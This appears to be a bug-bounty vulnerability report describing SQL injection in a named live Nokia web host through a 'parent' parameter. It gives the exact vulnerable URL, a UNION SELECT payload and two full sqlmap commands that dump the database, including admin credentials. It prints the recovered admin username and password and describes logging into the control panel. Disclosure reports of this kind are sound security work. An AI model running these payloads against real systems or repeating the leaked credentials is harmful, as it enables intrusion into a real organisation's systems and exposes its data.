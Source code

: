 # SQL injection in https://gdclive.nokia.com - parent param

# Steps To Reproduce :
* Visite this Path `/plugins/editors/jckeditor/plugins/jtreelink/dialogs/links.php?extension=menu&view=menu&parent=`
* Add This Payload in parent param (`%22%20UNION%20SELECT%20NULL,NULL,@@version,NULL,NULL,NULL,NULL,NULL--%20aa`)
  #### Now you can see the version of database in url input
  
  <img src='src/nokiasql.png'>
  
## lets exploit it using `SQLMAP Tool`
##### Command : `$ sqlmap -u 'https://gdclive.nokia.com/plugins/editors/jckeditor/plugins/jtreelink/dialogs/links.php?extension=menu&view=menu&parent=' --level=5 --risk=3 --random-agent --technique=U -p parent --batch --current-db --current-user`
<img src='src/sql1.png'>

`$ sqlmap -u 'https://gdclive.nokia.com/plugins/editors/jckeditor/plugins/jtreelink/dialogs/links.php?extension=menu&view=menu&parent=' --level=5 --risk=3 --random-agent --technique=U -p parent --batch --all # for get the username and password of admins`

#### Booom - admin account
* username : 123456
* password : adminuser
<img src='src/oh.gif'>

#### So secure XD

### Try to login in
<img src='src/cp.jpg'>

#### pwned ^__^

# Impact :

##### A SQL injection attack consists of insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to effect the execution of predefined SQL commands.

### Reference : https://www.owasp.org/index.php/Top_10-2017_A1-Injection

<img src='src/nokia_rep.png'>
